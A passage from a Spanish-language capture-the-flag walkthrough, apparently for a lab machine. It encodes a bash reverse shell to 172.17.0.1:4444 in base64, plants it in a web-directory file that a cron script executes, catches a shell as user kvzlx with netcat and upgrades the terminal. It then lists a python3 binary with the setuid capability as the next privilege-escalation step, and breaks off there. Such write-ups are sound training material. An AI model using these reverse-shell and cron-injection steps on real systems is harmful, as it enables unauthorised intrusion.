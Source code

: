 ~~~ bash
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'" | base64
~~~

~~~ bash
www-data@c052d297dce2:/home/kvzlx$ echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'" | base64 >> /var/www/html/.wp-encrypted.txt
~~~

En unos segundos recibiremos una  `shell` como el usuario `kvzlx` en `nc`

~~~ bash
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34838
bash: cannot set terminal process group (5613): Inappropriate ioctl for device
bash: no job control in this shell
kvzlx@c052d297dce2:~$ id
id
uid=1000(kvzlx) gid=1000(kvzlx) groups=1000(kvzlx)
~~~

Nuevamente haremos un tratamiento para usar esta consola de forma más cómoda y con nuestras proporciones

~~~ bash
kvzlx@c052d297dce2:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
kvzlx@c052d297dce2:~$ export TERM=xterm
export TERM=xterm
kvzlx@c052d297dce2:~$ ^Z
[1]  + 285428 suspended  nc -lvnp 4444
root@parrot norc # stty raw -echo;fg
[1]  + 285428 continued  nc -lvnp 4444
                                      reset xterm
~~~

Si hacemos una vista de los procesos que este usuario ejecuta, podemos ver que se está ejecutando el archivo `.cron_script.sh` que vimos anteriormente

~~~ bash
ps -aux
~~~


## Root Time - Python3 `setuid` Capability

Siempre que tengamos acceso a un nuevo usuario debemos volver a buscar formas de escalar privilegios. como `sudo`, `suid`, `capabilities`, etc. En este caso obtuve el mismo resultado al listar las capabilities del binario `/opt/python`

~~~ bash
kvzlx@c052d297dce2:~$ /sbin/getcap -r / 2>/dev/null
/opt/python3 cap_setuid=ep
~~~

Intentaremos usar la capability `setuid` que tenemos asignada en `/opt/python` para escalar nuestro privilegio de igual forma que lo intentamos con el usuario `www-data`
